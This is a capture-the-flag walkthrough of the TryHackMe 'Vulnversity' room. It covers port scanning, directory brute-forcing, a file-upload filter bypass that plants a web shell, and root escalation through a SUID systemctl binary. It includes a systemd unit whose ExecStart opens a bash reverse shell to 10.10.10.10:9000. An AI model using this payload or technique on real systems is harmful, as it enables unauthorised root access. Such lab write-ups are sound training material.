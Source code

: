 # TryHackMe - Vulnversity

Learn about active recon, web app attacks and privilege escalation.

## Skills Learned

- Port Scanning
- Web enumeration
- File Upload Restriction Bypass
- Privilege Escalation via sudo

# Tasks

## Reconnaissance 

Reconnaissance is act of gathering information about the target. 

### Nmap

Port scan with nmap

![1d1166f1df36477c0481153e9b4b496d.png](_resources/5c6bb67840e94c87befa6cc5c0fc7c54.png)

Scan through all port

```bash
nmap -p- --min-rate 1000 -oN all-port 10.10.231.160 -v
```

![ca10d8e44625cef38ea6be3a16f8f849.png](_resources/ae01612d2a3b470aadec519e84617b87.png)

Determine each service version

```bash
nmap -p21,22,139,445,3128,3333 -sC -sV -oN all-port-scan 10.10.231.160 -v
```

## Locating directories using GoBuster 

### Directory Brute Force - Gobuster

Perform a directory brute force

```bash
gobuster dir -u http://10.10.231.160:3333 -w /opt/SecLists/Discovery/Web-Content/raft-large-directories.txt -o discovered.txt
```

![98f7337b2a06c617531d63f87e6932c4.png](_resources/2e97316d8e33467990e0e2b516911f72.png)



## Compromise the webserver 

### Fuzzing Allowed File Extension

Failed upon uploading a web shell to `http://machine_ip:3333/internal/index.php`, extension is not allowed

![38103265ff226ec22d1af4e27add68ed.png](_resources/6f92a893665c40b4ae99df6a52a50b7d.png)

Fuzzing the file extension with BurpSuite

![9bba3d03abb99098428a6c7039553cee.png](_resources/aee12aca45e341c6a092853c79df5d41.png)

Used wordlist

![6ef65443dd45b444d2c09f3ba0b36d8e.png](_resources/7242d06ca3af4558b4232e20a4be0125.png)

One of the results shows different length.

![4a64d3a359f0ef4e0e1213ca9265c9c0.png](_resources/52cc839834f649af8f7c38273fd7d915.png)

Reuploading the web shell with newer extension, `phtml`

![2ec6da3c8767e4b27c51220bbfb258b7.png](_resources/7d355abc6f1446f8bcfe8cc79727e54b.png)

Determine upload location with directory bruteforce using `gobuster`

![dc84ba97630550ba19ce63add027292b.png](_resources/88eb323f28c849dd9ca4a8c3ba2f013a.png)

The upload directory located on `http://machine_ip:3333/internal/uploads/`  

![96fd6d16bf89b38f5435323d0eb0d633.png](_resources/d02e322229e44537b3063ac0ab2138f3.png)

Accessing the web shell returns a reverse shell.

![7ee43fbc3e31fd11c31a6064202e339f.png](_resources/57aad1e798cb4d95b2c393acd01021f6.png)

## Privilege Escalation

Privilege escalation is act of searching potential vector such as exploit bugs, system flaws, or abusing misconfiguration to gain higher privileges (root or administrator) 

There are two types of privilege escalation:

- Horizontal Privilege Escalation, user level to another user
- Vertical Privilege Escalation, user level to super user (root/admin/system)

### Privilege Escalation with SUID binary - systemctl

> SUID (set owner userId upon execution)

The **find** command can be used to find binary with SUID bit

```bash
$ find / -type f -perm -u=s 2>/dev/null | grep -v proc
```

`systemctl` is a utility for managing system and service in Linux. With SUID bit set, it offers a potential [privesc](https://gist.github.com/A1vinSmith/78786df7899a840ec43c5ddecb6a4740) vector.

![c4c2fcba4ad579ba0f626340da39067d.png](_resources/d52a2f3ed3c4435abd3fc35544d011ae.png)


Steps:

1. Create a root.service

   ```bash
   [Unit]
   Description=im groot
   
   [Service]
   Type=simple
   User=root
   ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/9000 0>&1'
   
   [Install]
   WantedBy=multi-user.target
   ```

2. Host and download it on the target

   ![66a4d593472f33fe22893f5e5b4ef4fc.png](_resources/e890907bf17345f9b4f042b19a7ae1c7.png)

   ![f80d5024437848823cd690f666c70784.png](_resources/49c3b280e284446da2ff3f840332d417.png)

3. Enable root.service and start service

   ```bash
   $ /bin/systemctl enable /dev/shm/root.service
   $ /bin/systemctl start root
   ```

4. Check the listener

![ff7d4260e110a28da6f630dd3bc15cf9.png](_resources/0bed6439af0d4a64a1ad6f3bc63b3267.png)